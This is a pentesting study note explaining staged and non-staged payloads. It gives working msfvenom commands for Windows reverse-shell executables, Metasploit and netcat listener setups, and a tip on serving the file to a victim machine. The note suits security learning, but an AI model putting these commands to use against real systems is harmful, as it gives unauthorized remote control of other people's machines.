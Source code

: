 It is important to note that the type of payload used in an attack will depend on the target and the security measures implemented. In general, Staged payloads are more difficult to detect and are preferred by attackers, while Non-Staged payloads are easier to implement but are also easier to detect.

# Staged

It is a type of payload that is divided into two or more stages. The first stage is a small part of the code that is sent to the target, the purpose of which is to establish a secure connection between the attacker and the target machine. Once the connection is established, the attacker sends the second stage of the payload, which is the actual payload of the attack. This approach allows attackers to circumvent additional security measures, as the actual payload is not sent until a secure connection is established.

# Non-Staged

It is a type of payload that is sent as a single entity and is not split into multiple stages. The entire payload is sent to the target in a single packet and is executed immediately upon receipt. This approach is simpler than Payload Staged, but it is also easier to detect by security systems, since all the malicious code is sent at once.

# Example

In this examples we are going to use *msfvenom* to create a malicious .exe file for Windows that allows us to connect through a Reverse Shell trough [[Metasploit]].

## msfvenom

### Staged Payload

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST={LHOST} LPORT={LPORT} -f exe -o test.exe
```

### Non Staged Payload

```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST={LHOST} LPORT={LPORT} -f exe -o test.exe
```

----
> Both options will generate an .exe that, for learning purposes, we can share with the victim machine via *Python* with a http server: **python3 -m http.server {LPORT}**
----

## Metasploit

After genereting the .exe file, we can start running metasploit:

```shell
# Is a good practice update db every single time we start msfconsole
msfdb run

use exploit/multi/handler

# windows/x64/meterpreter/reverse_tcp in case of staged or windows/x64/meterpreter_reverse_tcp in case of non-staged
set payload {PAYLOAD}

set LHOST {LHOST}

set LPORT {LPORT}

run
```

After that, we should be able to entablish a tcp connection when the victim runs the .exe file.

----
> Refer to [[Metasploit]] for more information about post-exploitation
----

## Netcat

```shell
# First we generate the .exe file
msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST={LHOST} LPORT={LPORT} -f exe -o test.exe

# And then we listen in the specified port
nc -nlvp {LPORT}
```

We can also give extra functionalities in Windows shells with the auxiliary tool *rlwrap*, that give us some features like CTRL+L or get previous command (up arrow) in the reverse shell:

```shell
apt install rlwrap

rlwrap nc -nlvp 1234
```